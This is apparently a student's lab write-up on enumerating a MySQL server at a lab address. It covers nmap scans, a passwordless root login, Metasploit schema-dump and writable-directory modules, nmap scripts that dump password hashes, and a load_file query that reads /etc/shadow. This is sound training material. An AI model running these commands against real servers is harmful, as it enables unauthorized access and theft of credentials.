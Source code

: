 # MySQL

## Tools: 
- nmap

## Tasks

    1. What is the version of MySQL server?
    2. What command is used to connect to remote MySQL database?
    3. How many databases are present on the database server?
    4. How many records are present in table “authors”? This table is present inside the “books” database.
    5. Dump the schema of all databases from the server using suitable metasploit module?
    6. How many directories present in the /usr/share/metasploit-framework/data/wordlists/directory.txt, are writable? List the names.
    7. How many of sensitive files present in /usr/share/metasploit-framework/data/wordlists/sensitive_files.txt are readable? List the names.
    8. Find the system password hash for user "root".
    9. How many database users are present on the database server? Lists their names and password hashes.
    10. Check whether anonymous login is allowed on MySQL Server.
    11. Check whether “InteractiveClient” capability is supported on the MySQL server.
    12. Enumerate the users present on MySQL database server using mysql-users nmap script.
    13. List all databases stored on the MySQL Server using nmap script.
    14. Find the data directory used by mysql server using nmap script.
    15. Check whether File Privileges can be granted to non admin users using mysql_audi nmap script.
    16. Dump all user hashes using  nmap script.
    17. Find the number of records stored in table “authors” in database “books” stored on MySQL Server using mysql-query nmap script.

### Basic Scan
`nmap 192.111.166.3`
### Service Version and Port information | Find out version of mySQL server:
`nmap 192.111.166.3 -p 3309 -sV`

### Connecting to MySQL Server
`mysql -h 192.111.166.3 -u root`

### Look at Databases
`show databases;`

### Look at books Database, finding out how many records are present in table "authors"
    ,
`use books;`

    `books > `select count(*) from authors;`
    
    `select * from authors;`

    `exit`
**10 Records are present**

### Dump the schema of all databases from the server using suitable metasploit module:

`msfconsole`

    msf5: `use auxiliary/scanner/mysql/mysql_writable_dirs`
    
    msf5: `options`
    
    msf5: `set dir_list /usr/share/metasploit-framework/data/wordlists/directory.txt`
    
    msf5: `set rhosts 192.111.166.3`
    
    msf5: `set verbose false`: deactivates detailed status messages
    
    msf5: `advanced`: shows parameters

    msf5: `set password ""`

    msf5: `options`

    msf5: `run`

    msf5: `use auxiliary/scanner/mysql/mysql_schemadump`: rhost stays, because we set it as global before

    msf5: `set username root`

    msf5: `set password ""`

    msf5: `options`

    msf5: `exploit
    
    msf5: `exit`
![grafik](https://github.com/user-attachments/assets/9d60ceba-d2e1-40dd-8ed7-1cd35142316d)

### Finding out how many Directories present in /usr/share/metasploit-framework/data/wordlists/directory.txt are writable

`mysql -h 192.111.166.3 -u root`

    `select load_file("/etc/shadow");`: check if we have access to the files on the system

    `exit`
![grafik](https://github.com/user-attachments/assets/cd5c55ea-c814-4732-9f28-428f3e0235b0)


`nmap 192.111.166.3 -sV -p 3306 --script=mysql-empty-password`

`nmap 192.111.166.3 -sV -p 3306 --script=mysql-info`: InteractiveClient gives us access to system through mysql

`nmap 192.111.166.3 -sV -p 3306 --script=mysql-users --script-args="mysqluser='root',mysqlpass=''"`: We can see the users

`nmap 192.111.166.3 -sV -p 3306 --script=mysql-databases --script-args="mysqluser='root',mysqlpass=''"`

`nmap 192.111.166.3 -sV -p 3306 --script=mysql-variables --script-args="mysqluser='root',mysqlpass=''"`

`nmap 192.111.166.3 -sV -p 3306 --script=mysql-audit --script-args="mysql-audit.username='root',mysql-audit.password='',mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'"`

`nmap 192.111.166.3 -sV -p 3306 --script=mysql-dump-hashes --script-args="username='root',password=''"`

`nmap 192.111.166.3 -sV -p 3306 --script=mysql-query --script-args="query='select count(*) from books.authors;',username='root',password=''"`
    



    

